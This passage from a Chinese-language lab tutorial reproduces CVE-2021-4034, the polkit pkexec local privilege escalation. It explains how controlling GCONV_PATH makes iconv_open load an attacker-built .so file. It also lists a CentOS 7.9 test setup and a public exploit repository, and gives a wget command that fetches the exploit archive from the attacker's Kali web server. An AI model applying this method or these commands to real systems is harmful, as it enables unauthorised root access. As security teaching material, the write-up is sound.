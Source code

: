 ![img](assets/1695394239121-6b43cc7c-01d4-417e-9a0d-0cedf5cbdde8.png)

其中使用了g_printerr()函数打印错误消息，该函数调用了glibc的函数iconv_open()函数。iconv_open()函数使用时首先会找到系统提供的gconv-modules文件（这个文件中包含了各个字符集的相关信息存储的路径，每个字符集的相关信息存储在一个.so文件中，即gconv-modules文件提供了各个字符集的.so文件所在位置）。然后再根据gconv-modules文件的指示去链接参数对应的.so文件。

而GCONV_PATH这个环境变量可以修改指向gconv-modules的位置，也就是说如果攻击者控制了GCONV_PATH就可以让iconv_open找到攻击者构造的gconv-modules，让其执行指定的.so文件内的特定函数来进行提权。

## 7.3 漏洞复现

## 7.3.1 实验环境

操作系统：Centos7.9（镜像地址：https://mirrors.tuna.tsinghua.edu.cn/centos/7.9.2009/isos/x86_64/CentOS-7-x86_64-Minimal-2009.iso）

普通用户：zhangsan

漏洞利用工具：https://github.com/berdav/CVE-2021-4034

## 7.3.2 复现过程

下载漏洞利用工具，这里现将工具压缩包下载值kali，在kali上用python开启web服务，来让被攻击主机下载。

wget http://192.168.219.134:8000/CVE-2021-4034-main.zip

